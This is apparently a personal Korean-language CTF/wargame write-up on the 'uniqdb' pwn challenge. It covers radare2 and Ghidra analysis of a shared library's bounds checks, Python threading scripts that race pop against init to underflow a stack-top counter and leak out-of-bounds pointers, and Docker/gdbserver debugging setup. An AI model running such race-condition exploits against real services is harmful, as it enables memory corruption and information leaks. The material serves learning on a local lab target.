










```javascript
r2 -e bin.cache=True -A ./libuniqdb.so
```



`uniq 0x1119`, `get 0x1153`, `set 0x118e`, `push 0x11e8`, `pop 0x124e`, `find 0x1299`, `count 0x12ed`, `init 0x12fe`.



libdb로부터 value에도<span class="text-underline"><strong> c_ulonglong이 들어가고 있으므로 아래와 같이 arr의 칸 수를 계산할 수 있음</strong></span>. 이때 libdb 외에 디버그 심볼을 통해서도 자료형을 알 수 있으나, 해당 파일은 with debug info가 잡히지 않았으며, iS~debug도 잡히지 않음

혹은 arr과 top에 접근하는 함수에서<span class="text-underline"><strong> 인덱싱 스케일</strong></span>을 아래와 같이 참조하는 방법도 있음



<figure style="text-align: center;">
    
    <figcaption style="font-size: 0.9em; color: gray; margin-top: 5px;" markdown="span">WORD 2바이트, DWORD 4바이트, QWORD 8바이트</figcaption>
</figure>

즉, 계산에 따르면 0x4000000 크기 arr은

0x800000 칸짜리 배열임. 유효인덱스는 `arr[0]` ~ `arr[0x7fffff]` 이고, top은 바로 인접 주소에 있으므로 arr[0x800000]에 위치하고 있

`0x4004040 - 0x4040 = 0x4000000 = 0x800000 * 8` ⇒ `top`<strong>은 정확히 </strong>`arr[0x800000]` (배열 바로 뒤 인접). 이것이 <strong>어떤 버퍼를, 어떤 경계변수 기준으로 접근하느냐의 문제가 되므로 </strong> OOB의 유일한 인접 타깃. (엔드 포인트 이름 상 배열 arr과 경계변수 top이 있을 걸로 예상됨)

⇒ arr을 벗어나기 위해 top 검사를 뚫고, top을 오염시키면 됨. 다만 아래 함수 분석에서 직선적인 단일 스레드 OOB는 불가함을 알 수 있음


```javascript
[0x00001060]> fs
    0 . classes
...
   29 . symbols
    0 . trycatch
[0x00001060]> fs symbols
[0x00001060]> f
0x00001000 27 sym._init
...
0x00004040 67108864 obj.arr
0x04004040 8 obj.top
[0x00001060]> f~arr
0x00003e10 0 obj.__frame_dummy_init_array_entry
0x00003e18 0 obj.__do_global_dtors_aux_fini_array_entry
0x00004040 67108864 obj.arr
[0x00001060]> f~top
0x04004040 8 obj.top
[0x00001060]> iS. @ obj.arr
Current section
nth paddr       size vaddr           vsize perm flags type   name
―――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――
0   0x00003008   0x0 0x00004020  0x4000028 -rw- 0x3   NOBITS .bss
[0x00001060]> iS. @ obj.top
Current section
nth paddr       size vaddr           vsize perm flags type   name
―――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――
0   0x00003008   0x0 0x00004020  0x4000028 -rw- 0x3   NOBITS .bss
[0x00001060]>
```

따라서 접근 가능한 endpoint에서 봐야하는것은 → 경계 검증이 허술한 곳이 있는가? 임. 즉, obj.arr[0x800000]의 첫 바이트라도 쓸 수 있게 하는 것

- sym.get

  ```c
  ulong sym.get(uint64_t arg1)

  {
      ulong uVar1;
      uint64_t var_8h;

      if (arg1 < _obj.top) {
          uVar1 = *(obj.arr + arg1 * 8);
      }
      else {
          uVar1 = 0xffffffffffffffff;
      }
      return uVar1;
  }
  ```
- sym.set

  ```c
  ulong sym.set(uint64_t arg1,int64_t arg2)

  {
      char cVar1;
      int64_t var_10h;
      uint64_t var_8h;

      if ((arg1 < _obj.top) && (cVar1 = sym.uniq(arg2), cVar1 != '\0')) {
          *(obj.arr + arg1 * 8) = arg2;
          return 1;
      }
      return 0;
  }
  ```
- sym.uniq

  ```c
  uint sym.uniq(uint64_t arg1)

  {
      int64_t iVar1;
      uint64_t var_8h;

      if ((arg1 != 0xffffffffffffffff) && (iVar1 = sym.plt.find(arg1), iVar1 == -1)) {
          return 1;
      }
      return 0;
  }
  ```
- sym.find

  ```c
  uint64_t sym.find(uint64_t arg1)

  {
      uint64_t var_18h;
      uint64_t var_8h;

      var_8h = 0;
      while( true ) {
          if (_obj.top <= var_8h) {
              return 0xffffffffffffffff;
          }
          if (arg1 == *(obj.arr + var_8h * 8)) break;
          var_8h = var_8h + 1;
      }
      return var_8h;
  }
  ```

⇒ sym.get, sym.set, sym.uniq, sym.find로 한 묶음의 분석이 끝남

⇒ 경계 밖을 쓸 수 있는 부분이 없음. 경계 감시기 단단함 ⇒ 직선 경로로는 불가

⇒ 검사한 값과 쓰는 값이 달라지는 순

```bash
info functions get\|pop\|push\|set
```



프로빙

<details>
<summary markdown="span">race.py(실패) — pop race</summary>
<div class="toggle-content" markdown="1">

```python
import ctypes, threading
SO="/mnt/c/Users/jshrb/Desktop/wargame-pwn/dh-uniqdb/deploy/app/libuniqdb.so"
db=ctypes.CDLL(SO)
db.get.argtypes=(ctypes.c_ulonglong,); db.get.restype=ctypes.c_ulonglong
db.set.argtypes=(ctypes.c_ulonglong,ctypes.c_ulonglong); db.set.restype=ctypes.c_bool
db.push.argtypes=(ctypes.c_ulonglong,); db.push.restype=ctypes.c_bool
db.pop.restype=ctypes.c_ulonglong
db.count.restype=ctypes.c_ulonglong
db.init.argtypes=(ctypes.c_ulonglong,); db.init.restype=ctypes.c_bool

# Try to race pop to underflow top. Reset top to 1 repeatedly and hammer pop.
# ctypes releases the GIL during the call, so threads can truly race in the C code.
import time
found=False
for trial in range(2000):
    db.init(1)            # top=1
    def worker():
        db.pop()
    ts=[threading.Thread(target=worker) for _ in range(8)]
    for t in ts: t.start()
    for t in ts: t.join()
    c=db.count()
    if c>0x800000:
        print("UNDERFLOW at trial",trial,"count=",hex(c)); found=True; break
print("done, found=",found,"last count=",hex(db.count()))
```

</div>
</details>

<details>
<summary markdown="span">race2.py(성공) — pop race</summary>
<div class="toggle-content" markdown="1">

```python
import ctypes, threading, sys, time
SO="/mnt/c/Users/jshrb/Desktop/wargame-pwn/dh-uniqdb/deploy/app/libuniqdb.so"
db=ctypes.CDLL(SO)
db.pop.restype=ctypes.c_ulonglong
db.count.restype=ctypes.c_ulonglong
db.init.argtypes=(ctypes.c_ulonglong,); db.init.restype=ctypes.c_bool
db.push.argtypes=(ctypes.c_ulonglong,); db.push.restype=ctypes.c_bool

stop=False
hit=[None]
def popper():
    while not stop:
        db.pop()
def feeder():
    # keep top near 1 so pops frequently race at the boundary
    while not stop:
        db.init(1)
threads=[threading.Thread(target=popper) for _ in range(6)]+[threading.Thread(target=feeder) for _ in range(2)]
for t in threads: t.start()
t0=time.time()
while time.time()-t0<45:
    c=db.count()
    if c>0x800000:
        hit[0]=c; break
    time.sleep(0.0005)
stop=True
for t in threads: t.join()
print("RESULT hit=",(hex(hit[0]) if hit[0] else None),"final count=",hex(db.count()))
```

</div>
</details>

<details>
<summary markdown="span">race2_remote.py(실패) — pop race</summary>
<div class="toggle-content" markdown="1">

`info functions get` 으로 bp를 걸어주고 대기 걸기



```python
import ctypes, threading, sys, time
import requests, concurrent.futures as cf
B = "http://localhost:8080"
SO="/mnt/c/Users/jshrb/Desktop/wargame-pwn/dh-uniqdb/deploy/app/libuniqdb.so"
db=ctypes.CDLL(SO)
db.pop.restype=ctypes.c_ulonglong
db.count.restype=ctypes.c_ulonglong
db.init.argtypes=(ctypes.c_ulonglong,); db.init.restype=ctypes.c_bool
db.push.argtypes=(ctypes.c_ulonglong,); db.push.restype=ctypes.c_bool

stop=False
hit=[None]
def popper():
    while not stop:
        try: requests.get(f"{B}/pop", timeout=5).text
        except: pass
def feeder():
    # keep top near 1 so pops frequently race at the boundary
    while not stop:
        try: requests.get(f"{B}/init/1", timeout=5).text
        except: pass
threads=[threading.Thread(target=popper) for _ in range(6)]+[threading.Thread(target=feeder) for _ in range(2)]
requests.get(f"{B}/init/1", timeout=5)          # top = 1 세팅
print("before:", requests.get(f"{B}/count").json())
for t in threads: t.start()
t0=time.time()
while time.time()-t0<45:
    c=requests.get(f"{B}/count", timeout=5).json()["count"]
    if c>0x800000:
        hit[0]=c; break
    time.sleep(0.0005)
stop=True
for t in threads: t.join()
print("RESULT hit=",(hex(hit[0]) if hit[0] else None),"final count=",hex(requests.get(f"{B}/count").json()["count"]))
requests.get(f"{B}/get/1")  
```

</div>
</details>

<details>
<summary markdown="span">confirm3.py(성공) — pop race</summary>
<div class="toggle-content" markdown="1">



```python
import ctypes, threading, time
SO="/mnt/c/Users/jshrb/Desktop/wargame-pwn/dh-uniqdb/deploy/app/libuniqdb.so"
db=ctypes.CDLL(SO)
db.get.argtypes=(ctypes.c_ulonglong,); db.get.restype=ctypes.c_ulonglong
db.pop.restype=ctypes.c_ulonglong
db.count.restype=ctypes.c_ulonglong
db.init.argtypes=(ctypes.c_ulonglong,); db.init.restype=ctypes.c_bool

stop_all=False
feed_on=True
def popper():
    while not stop_all: db.pop()
def feeder():
    while not stop_all:
        if feed_on: db.init(1)
        else: time.sleep(0.0001)

ts=[threading.Thread(target=popper) for _ in range(10)]+[threading.Thread(target=feeder) for _ in range(3)]
for t in ts: t.start()

t_end=time.time()+80
caught=None
while time.time()<t_end and caught is None:
    c=db.count()
    if c>0x800000:
        feed_on=False                 # stop resets; poppers keep top huge
        # read immediately & repeatedly; if a stray init shrank it, loop will re-detect
        time.sleep(0.003)
        c2=db.count()
        if c2>0x800000:
            caught=c2
            vtop=db.get(0x800000)     # arr[0x800000] == top
            ptrs=[]
            for i in range(0x800001, 0x820000):
                x=db.get(i)
                if 0x550000000000 <= x <= 0x7fffffffffff:
                    ptrs.append((hex(i),hex(x)))
                    if len(ptrs)>=6: break
            print("CAUGHT top=",hex(caught))
            print("get(0x800000)[=&top]=",hex(vtop))
            print("live OOB pointers (idx,val):",ptrs)
        else:
            feed_on=True
    time.sleep(0.0002)
stop_all=True
for t in ts: t.join()
print("final caught=", caught is not None)
```

</div>
</details>

## insight

- ghidra의 자동 변수 네이밍 규칙

  지역변수 타입 접두사 + 번호 + 등장순서

  | 접두사 | 타입 | 예 |
  | --- | --- | --- |
  | `cVar` | <strong>char</strong> (1바이트) | `cVar1` |
  | `sVar` | <strong>short</strong> (2바이트) | `sVar1` |
  | `iVar` | <strong>int</strong> (4바이트) | `iVar1` |
  | `lVar` | <strong>long</strong> (8바이트) | `lVar1` |
  | `uVar` | <strong>unsigned</strong> (크기 미정/일반) | `uVar1` |
  | `bVar` | <strong>byte</strong> (unsigned char) | `bVar1` |
  | `dVar` | <strong>double</strong> | `dVar1` |
  | `fVar` | <strong>float</strong> | `fVar1` |
  | `pVar` / `pcVar`/`piVar` 등 | <strong>pointer</strong> (p + 가리키는 타입) | `pcVar1`=char*, `piVar1`=int* |
  | `auVar`, `acVar` | <strong>array</strong> (a + 타입) | `auVar1`=unsigned 배열 |
  | `uVar`/`in_*` | 레지스터/미확정 |  |

  스택 변수 접두사 x + 번호 + h `varNh` / `local_N`

  | 패턴 | 의미 |
  | --- | --- |
  | `local_N` | 스택 변수. N = <strong>프레임 기준 오프셋</strong>(16진) |
  | `uStack_N`, `aStack_N` | 스택의 특정 타입 변수 |
  | `var_Nh` (r2 스타일) | 스택 변수, N = 오프셋. <strong>r2 디스어셈 표기</strong> |
- function의 local, global

  이 워게임에서 어떤 의미가 있을까?
- 디버깅 커스텀

  pwndbg를 docker 안 프로세스에 붙이려면 뭐가 필요할까?

  1. --cap-add=SYS_PTRACE
  1. 디버거가 프로세스 메모리를 들여다봐야함 : ptrace 권한
    1. --security-opt seccomp=unconfined
  1. 디버그 통신이 컨테이너 밖으로 나와야 함 : 포트 노출
    1. -p 1234:1234
      1. gdbserver(빌드 시점엔 없지만)가 컨테이너 안에서 1234 포트를 연다고 가정
      1. pwndbg는 컨테이너 밖에 있으므로 target remote localhost:1234가 가능하게끔
  1. 서비스 자체도 돌아야 함 : 앱 포트
    1. -p 8080:8080
      1. 아래 dockerfile에 expose 8080이고, 해당 포트에서는 app이 돌고 있음. 따라서 HTTP 엔드 포인트를 접하기 위해서 포트를 노출
  1. 편의: 백그라운드 실행, exec / attach 실행을 위해, 이름 uniqdb-dbg → `docker exec -it uniqdb-dbg bash`

  ```c
  FROM python:3.10-slim-bullseye@sha256:f2ee145f3bc4e061f8dfe7e6ebd427a410121495a0bd26e7622136db060c59e0

  ENV USER uniqdb
  ENV PORT 8080

  # Change tmp permissions
  RUN chmod 1733 /tmp /var/tmp /dev/shm

  # Add user
  RUN adduser --disabled-password --gecos "" $USER \
   && chown -R root:root /home/$USER

  # Add files
  COPY --chown=root:$USER ./deploy/app /home/$USER/app
  COPY --chown=root:$USER ./deploy/flag ./deploy/requirements.txt /home/$USER/

  # chown & chmod files
  WORKDIR /home/$USER
  RUN chmod -R 550 app \
   && chmod 440 flag requirements.txt \
   && mv flag flag_$(md5sum flag | awk '{print $1}')

  # Install requirements
  RUN pip install --no-cache-dir -r requirements.txt

  # Run server
  WORKDIR /home/$USER/app
  CMD ["./uniqdb.py"]
  USER $USER
  EXPOSE $PORT

  ```

  - 원격지 안에서 gdbserver열기

    ```bash
    local> docker exec -u root -it uniqdb-dbg bash
    root@41c0020fda6d:/home/uniqdb/app# for p in /proc/[0-9]*; do echo "$p: $(cat $p/comm 2>/dev/null)"; done
    /proc/1: python3
    /proc/7: bash
    root@41c0020fda6d:/home/uniqdb/app# grep -l uniqdb /proc/*/cmdline 2>/dev/null
    /proc/1/cmdline
    /proc/self/cmdline
    /proc/thread-self/cmdline
    ```
  - local에서 원격지 디버깅 붙이기

    ```python
    local> gdb ./libuniqdb.so
    pwndbg> target remote localhost:1234
    ```
- ELF 섹션 배치는 링커가 규칙대로 함. 랜덤이 아니므로 arr의 음수인덱스에 중요 정보가 올 것을 알 수 있음

  ```python
  .init_array   0x3e10    ← 초기화 함수 포인터
  .fini_array   0x3e18    ← 종료 함수 포인터
  .dynamic      0x3e20
  .got          0x3fc0    ← GOT
  .data         0x4000    ← 초기화된 전역
  .bss          0x4020~   ← arr(0x4040), top(0x4004040)
  ```

  ```python
  [0x00001060]> iS
  nth paddr        size vaddr           vsize perm flags type       name
  ――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――
  0   0x00000000    0x0 0x00000000        0x0 ---- 0x0   NULL
  1   0x000002a8   0x20 0x000002a8       0x20 -r-- 0x2   NOTE       .note.gnu.property
  2   0x000002c8   0x24 0x000002c8       0x24 -r-- 0x2   NOTE       .note.gnu.build-id
  3   0x000002f0   0x40 0x000002f0       0x40 -r-- 0x2   GNU_HASH   .gnu.hash
  4   0x00000330  0x120 0x00000330      0x120 -r-- 0x2   DYNSYM     .dynsym
  5   0x00000450   0x76 0x00000450       0x76 -r-- 0x2   STRTAB     .dynstr
  6   0x000004c8   0xa8 0x000004c8       0xa8 -r-- 0x2   RELA       .rela.dyn
  7   0x00000570   0x18 0x00000570       0x18 -r-- 0x42  RELA       .rela.plt
  8   0x00001000   0x1b 0x00001000       0x1b -r-x 0x6   PROGBITS   .init
  9   0x00001020   0x20 0x00001020       0x20 -r-x 0x6   PROGBITS   .plt
  10  0x00001040   0x10 0x00001040       0x10 -r-x 0x6   PROGBITS   .plt.got
  11  0x00001050   0x10 0x00001050       0x10 -r-x 0x6   PROGBITS   .plt.sec
  12  0x00001060  0x301 0x00001060      0x301 -r-x 0x6   PROGBITS   .text
  13  0x00001364    0xd 0x00001364        0xd -r-x 0x6   PROGBITS   .fini
  14  0x00002000   0x64 0x00002000       0x64 -r-- 0x2   PROGBITS   .eh_frame_hdr
  15  0x00002068  0x174 0x00002068      0x174 -r-- 0x2   PROGBITS   .eh_frame
  16  0x00002e10    0x8 0x00003e10        0x8 -rw- 0x3   INIT_ARRAY .init_array
  17  0x00002e18    0x8 0x00003e18        0x8 -rw- 0x3   FINI_ARRAY .fini_array
  18  0x00002e20  0x1a0 0x00003e20      0x1a0 -rw- 0x3   DYNAMIC    .dynamic
  19  0x00002fc0   0x40 0x00003fc0       0x40 -rw- 0x3   PROGBITS   .got
  20  0x00003000    0x8 0x00004000        0x8 -rw- 0x3   PROGBITS   .data
  21  0x00003008    0x0 0x00004020  0x4000028 -rw- 0x3   NOBITS     .bss
  22  0x00003008   0x2b 0x00000000       0x2b ---- 0x30  PROGBITS   .comment
  23  0x00003038  0x330 0x00000000      0x330 ---- 0x0   SYMTAB     .symtab
  24  0x00003368  0x183 0x00000000      0x183 ---- 0x0   STRTAB     .strtab
  25  0x000034eb   0xe0 0x00000000       0xe0 ---- 0x0   STRTAB     .shstrtab
  ```

  arr 앞 음수인덱스를 쓸 수 있다면 재현성을 안정적으로 가져갈 수 있음

  → so base가 필요하면 init array를 읽고, libc base가 필요하면 got를 읽으면 됨

  ```python
  [0x00001060]> iS~init
  8   0x00001000   0x1b 0x00001000       0x1b -r-x 0x6   PROGBITS   .init
  16  0x00002e10    0x8 0x00003e10        0x8 -rw- 0x3   INIT_ARRAY .init_array
  [0x00001060]> iS~fini
  13  0x00001364    0xd 0x00001364        0xd -r-x 0x6   PROGBITS   .fini
  17  0x00002e18    0x8 0x00003e18        0x8 -rw- 0x3   FINI_ARRAY .fini_array
  [0x00001060]> iS~got
  10  0x00001040   0x10 0x00001040       0x10 -r-x 0x6   PROGBITS   .plt.got
  19  0x00002fc0   0x40 0x00003fc0       0x40 -rw- 0x3   PROGBITS   .got
  ```

## 처음부터 다시 푼다고 하면 reasonable한 한도 안에서 가장 짧은 경로는 뭘까?

- 10.12.26

  <details>
  <summary markdown="span">더보기</summary>
  <div class="toggle-content" markdown="1">


  </div>
  </details>

## 뭘 자동화 할 수 있을까?

- 토큰을 많이 먹지 않으니 dockerfile과 manifest, 포트, docker ps 를 간단하게 읽고→ gdbserver 세팅(dockerfile) → build / exec 명령어 ui로 뽑아주는 휴리스틱 있으면 좋겠음
  - 최초에 pwndbg가 붙을 때 시간이 오래 걸려서 익스랑 동시에 가능하면 원격 디버깅을 붙여놓고 싶음

    ```bash
    Reading symbols from ./libuniqdb.so...
    Downloading separate debug info for /mnt/c/Users/jshrb/Desktop/wargame-pwn/dh-uniqdb/deploy/app/libuniqdb.so
    ```

    ```bash
    Reading /usr/lib/debug/.build-id/f0/7e66998bbc1dafc620357488664d36e14bf0ef.debug from remote target...
    Downloading separate debug info for target:/usr/local/lib/python3.10/lib-dynload/zlib.cpython-310-x86_64-linux-gnu.so
    Download failed: Timer expired.  Continuing without separate debug info for target:/usr/local/lib/python3.10/lib-dynload/zlib.cpython-310-x86_64-linux-gnu.so.
    (No debugging symbols found in target:/usr/local/lib/python3.10/lib-dynload/zlib.cpython-310-x86_64-linux-gnu.so)
    Reading symbols from target:/lib/x86_64-linux-gnu/libz.so.1...
    Reading /usr/lib/debug/.build-id/6d/245aa7fed087c98525c2e9d3cf4d3d09addf5c.debug from remote target...
    Reading /lib/x86_64-linux-gnu/245aa7fed087c98525c2e9d3cf4d3d09addf5c.debug from remote target...
    Reading /lib/x86_64-linux-gnu/.debug/245aa7fed087c98525c2e9d3cf4d3d09addf5c.debug from remote target...
    Reading /usr/lib/debug//lib/x86_64-linux-gnu/245aa7fed087c98525c2e9d3cf4d3d09addf5c.debug from remote target...
    Reading /usr/lib/debug/lib/x86_64-linux-gnu//245aa7fed087c98525c2e9d3cf4d3d09addf5c.debug from remote target...
    Downloading separate debug info for target:/lib/x86_64-linux-gnu/libz.so.1
    Download failed: Timer expired.  Continuing without separate debug info for tar
    ```
- 워게임 실행 목적으로 wsl에 wargame {name} 입력하면 wsl 탭이 {name}-docker, pwndbg, r2로 열렸으면 좋겠음
  - 경로 $study/find {wargame}/ docker은 docker file 있는곳으로 cd, 그 외는 분석 대상 바이너리 있는 곳으로(수동으로 해줘야하려나 근데 dockerfile이나 qemu [run.sh](http://run.sh/) 있음 쉽게 특정될 거 같은데)
  - docker과 pwndbg에서는 위 스크립트가 자동으로 작동했으면 좋겠음
    - docker
